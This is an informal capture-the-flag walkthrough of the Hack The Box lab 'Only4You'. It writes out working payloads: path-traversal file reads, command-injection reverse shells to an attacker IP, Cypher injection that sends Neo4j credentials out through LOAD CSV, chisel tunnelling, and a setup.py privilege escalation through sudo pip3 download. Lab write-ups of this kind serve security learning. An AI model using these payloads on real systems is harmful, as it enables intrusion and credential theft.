 nmap 10.10.11.210           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 01:12 EDT
Nmap scan report for 10.10.11.210
Host is up (0.50s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 81.91 seconds

THe website is designed by BootstrapMade



while enumerating the subdomains we found one:
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u only4you.htb -t 50 --append-domain

http://beta.only4you.htb

in beta site there is a website


got the source code added here:

./beta

convert file did not happen

from the source code there is multiple html request params

/source
/list
/download
/convert
/resize

we need to send a post 
request how to intercept our post reuest using curl on the machine

curl --proxy localhost:8080 -s -X POST http://beta.only4you.htb/download -d "image=/etc/nginx/sites-enabled/default"

```
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
        listen 80;
        server_name only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
        }
}

server {
        listen 80;
        server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
             
```



intercepted traffic.

curl --proxy localhost:8080 -s -X POST http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage

we find the sendmessage is being called

we analyse that the domain argument is not sanitized and the shell parameter is True.

looking at thesource cod eof forms we can see that it uses something ike a resutl parameter

result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
 
which uses unsanitised version of the email domain 

which it takesfrom 
domain = email.split("@", 1)[1]

then whe n we intercept traffic from / domain we find that

```
POST / HTTP/1.1
Host: only4you.htb
Content-Length: 58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://only4you.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://only4you.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

name=aa&email=aa%40domain.com|curl http://10.10.16.47&subject=sss&message=asdfasdf
```



we got a web request at our server so lets try  payload


qwecan injectio commandsherer

so lets try with

name=aa&email=aa%40domain.com|nc 10.10.16.47 4444 -e /bin/bash&subject=sss&message=asdfasdf
nc 10.10.16.47 4444 -e /bin/bash

name=aa&email=aa%40domain.com|/bin/bash -i >& /dev/tcp/10.10.16.47/4444 0>&1 -e /bin/bash&subject=sss&message=asdfasdf
/bin/bash -i >& /dev/tcp/10.10.16.47/4444 0>&1

maybe trying for the wrong version of netcat payload

name=aa&email=aa%40domain.com|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.47 4444 >/tmp/f&subject=sss&message=asdfasdf
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.16.47 4444 >/tmp/f

name=aa&email=aa%40domain.com|rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.47+4444+>/tmp/f&subject=sss&message=asdfasdf

name=test&email=hyper%40hyper.com|rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.47+4444+>/tmp/f&subject=test&message=test

but only get bad gateway error



The entire request

```
POST / HTTP/1.1
Host: only4you.htb
Content-Length: 59
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://only4you.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://only4you.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiWW91IGFyZSBub3QgYXV0aG9yaXplZCEiXX1dfQ.ZLj6vQ.wk_SOP15L8LWRDXATQNyWLzyIaQ
Connection: close

name=test&email=hyper%40hyper.com|rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.47+4444+>/tmp/f&subject=test&message=test
```

delete the cookie  every time

the error was with the ip address that i gave got the shell



since  python3 --version
Python 3.8.10

we can try to make a better shell using python

```
$ netstat -ntlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1045/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -                   
$ 
```

let get these ports to the other side

./chisel server -p 9095 -reverse

./chisel client 10.10.16.24:9095 R:8001:10.10.11.210:8001 R:3000:10.10.11.210:3000 R:7474:10.10.11.210:7474

now we an try and access all the ports on localhost

./chisel client 10.10.16.47:9095 R:3000:127.0.0.1:3000 R:8001:127.0.0.1:8001 R:7474:127.0.0.1:7474
[1] 17449

so we got access to ports

neo4j


8001



3000



THen we use admin admin in 8001

not working vry low privilged shell

at /employees saw the payload

POST /search HTTP/1.1
Host: localhost:8001
Content-Length: 11
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8001
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8001/employees
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=4bfaed55-9678-4b2f-aedf-e726c266d88e
Connection: close

search='OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.47/?label='+label as l RETURN 0 as _0 //

sent with url encode




got the result back

lets try getting the user label

```
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.47/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

we got the password and usernames




cracked the password



john ThisIs4You

we do ssh

we got the user flag



john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz

THer is a way to execute malicious code using pip3 download

[](https://embracethered-com.translate.goog/blog/posts/2022/python-package-manager-install-and-download-vulnerability/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp)

```
john@only4you:~$ cat /usr/bin/pip3
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'pip==20.0.2','console_scripts','pip3'
__requires__ = 'pip==20.0.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('pip==20.0.2', 'console_scripts', 'pip3')()
    )

```
so you go into the gog page in test folder

you first get the wuzzi payload from https://github.com/wunderwuzzi23/this_is_fine_wuzzi

then we modify the setup.py file to include `    os.system("chmod +s /bin/bash")`

then we run 

```
pip3 install setuptools build
python3 -m build
```



sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/7653994ddc47cff63133aaed03d744366f3a14c2/this_is_fine_wuzzi-0.0.1.tar.gz

http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
http://localhost:3000/john/Test/src/7653994ddc47cff63133aaed03d744366f3a14c2/this_is_fine_wuzzi-0.0.1.tar.gz

http://127.0.0.1:3000/john/Test/raw/7653994ddc47cff63133aaed03d744366f3a14c2/this_is_fine_wuzzi-0.0.1.tar.gz



getting errors

http://127.0.0.1:3000/john/new/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz 

sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/new/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz 

sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/new/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz

